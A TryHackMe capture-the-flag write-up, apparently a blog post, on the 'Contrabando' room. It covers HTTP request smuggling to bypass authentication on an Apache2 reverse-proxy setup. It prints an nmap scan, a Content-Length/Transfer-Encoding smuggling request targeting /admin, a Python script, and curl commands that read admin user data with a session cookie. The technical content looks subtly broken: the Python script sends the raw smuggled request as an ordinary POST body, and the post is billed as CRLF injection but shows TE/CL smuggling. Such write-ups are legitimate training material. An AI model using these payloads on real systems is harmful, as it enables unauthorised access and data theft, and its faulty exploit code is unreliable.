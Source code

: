 ```yaml
---
title: "TryHackMe: Contrabando"
date: 2025-08-18
description: "Contrabando began with exploiting an HTTP Request Smuggling vulnerability via CRLF injection in Apache2 to bypass authentication and access restricted areas."
categories: ["TryHackMe"]
tags: ["web", "http-smuggling", "crlf-injection", "apache", "bypass"]
image: "/images/writeups/contrabando-thumb.jpg"
difficulty: "Hard"
platform: "TryHackMe"
author: "Adithya Kallaje"
---
```


# TryHackMe: Contrabando Writeup

![Contrabando Banner](/images/writeups/contrabando-banner.jpg)

## Overview

Contrabando is a hard-difficulty room that focuses on HTTP Request Smuggling attacks using CRLF injection techniques to bypass authentication mechanisms in Apache2.

## Reconnaissance

### Initial Scanning
```bash
nmap -sC -sV -A 10.10.x.x
```

**Services Discovered:**
- 22/tcp - SSH
- 80/tcp - Apache2 HTTP Server
- 443/tcp - HTTPS

### Web Application Analysis

The target runs a web application with:
- Authentication portal
- Restricted administrative areas
- Load balancer configuration

## HTTP Request Smuggling

### Understanding the Architecture

The application uses a reverse proxy setup:
- Frontend: Load balancer
- Backend: Apache2 server

This configuration is susceptible to HTTP Request Smuggling attacks.

### CRLF Injection Discovery

```http
POST /login HTTP/1.1
Host: 10.10.x.x
Content-Length: 56
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 10.10.x.x

```

### Exploitation Process

1. **Identify desync vulnerability**
2. **Craft malicious request**
3. **Bypass authentication**
4. **Access restricted areas**

```python
import requests

# Crafted request for smuggling
payload = """POST /login HTTP/1.1\r
Host: target.com\r
Content-Length: 56\r
Transfer-Encoding: chunked\r
\r
0\r
\r
GET /admin HTTP/1.1\r
Host: target.com\r
\r
"""

response = requests.post("http://10.10.x.x", data=payload)
```

## Authentication Bypass

### Smuggled Request Analysis

The smuggled request successfully bypassed:
- Session validation
- Access controls
- Authentication middleware

### Administrative Access

Once authenticated bypass was achieved:
```bash
# Access admin panel
curl -H "Cookie: session=smuggled_session" http://10.10.x.x/admin

# Extract sensitive data
curl -H "Cookie: session=smuggled_session" http://10.10.x.x/admin/users
```

## Post-Exploitation

### File System Access
- Configuration files
- User credentials
- Application secrets

### Privilege Escalation
```bash
# SSH access with discovered credentials
ssh admin@10.10.x.x

# Check privileges
sudo -l
```

## Impact Assessment

- **Authentication Bypass**: Complete
- **Data Exposure**: User credentials, application data
- **System Access**: SSH access gained
- **Privilege Level**: Administrative access

## Lessons Learned

- **HTTP Smuggling**: Critical vulnerability in proxy setups
- **CRLF Injection**: Powerful technique for request manipulation
- **Defense**: Proper proxy configuration is essential

## Mitigation Strategies

1. **Normalize HTTP requests**
2. **Use consistent parsing**
3. **Validate Content-Length**
4. **Implement strict HTTP parsing**

## Tools Used

- Burp Suite Professional
- Custom Python scripts
- HTTP Smuggling detection tools
- Nmap

---

**Difficulty**: Hard  
**Platform**: TryHackMe  
**Completion Date**: August 18, 2025
